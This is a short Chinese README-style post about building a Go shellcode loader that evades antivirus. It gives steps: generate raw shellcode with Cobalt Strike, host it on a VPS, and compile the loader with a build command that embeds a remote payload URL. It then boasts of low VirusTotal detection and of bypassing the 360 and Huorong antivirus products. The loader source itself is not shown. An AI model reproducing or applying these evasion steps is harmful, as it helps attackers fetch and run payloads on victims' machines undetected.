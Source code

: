 # go加载器bypass
最近刚开始学习go语言写加载器，参考了几篇文章，利用-race和载荷分离远程下载shellcode编译

1、首先用cs生成raw的shellcode上传到自己的vps服务器上

2、编译：go build -ldflags "-s -w -X main.url=http://xx.xx.xx.xx/payload.bin" -o 1.exe -race shellcode.go

3、VT查杀14，但是截止到目前为止，360与火绒都能bypass

本人刚开始学习免杀，还很菜，此源码参考了https://github.com/fcre1938/goShellCodeByPassVT/blob/main/main.go

欢迎大佬提出建议
